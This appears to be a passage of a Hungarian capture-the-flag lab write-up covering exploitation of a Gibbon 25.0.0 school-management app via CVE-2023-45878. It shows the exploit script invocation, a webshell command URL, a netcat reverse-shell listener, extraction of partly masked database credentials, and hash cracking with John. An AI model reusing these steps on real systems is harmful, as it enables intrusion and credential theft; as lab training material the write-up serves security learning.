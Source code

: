 
## Webalkalmazás felderítése / initial foothold

**Azonosított app:** GIBBON 25.0.0 (nyílt forráskódú iskolai menedzsment rendszer)

- Google: van rá CVE, keresett exploit: **CVE-2023-45878**
- Exploit: **Reverse shell feltöltése webshell-lel**

**Exploit script futtatása:**

```
bash CVE-2023-45878.sh 10.10.14.52 4444 10.10.11.60:80
```

- Feltölti a shellt
- Megnyitja: [http://10.10.11.60:80/Gibbon-LMS/gibbon\_myconfig.php?cmd=whoami](http://10.10.11.60:80/Gibbon-LMS/gibbon_myconfig.php?cmd=whoami)
- Netcat/metasploit listenert nyitni: `nc -lnvp 4444` vagy handler

**Eredmény:** sima reverse shell (command prompt)

---

## Első user / credential hunting

**Talált file:** `config.php` → **MySQL user/pass**

```
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parr*****';
```

**Bejelentkezés MySQL-be:**

```
C:\xampp\mysql\bin> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parr*****" -e "show databases;"
```

- Fő DB: `gibbon`
- User tábla: `gibbonperson`

**Talált user:**

- username: f.frizzle
- password hash + salt

**Password cracking (John):**

```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt fizz.txt
```

- **Result:** Jenni\_Luvs\_*******

---

## Kerberos TGT & User escalation

**Időszinkronizáció (fontos!):**
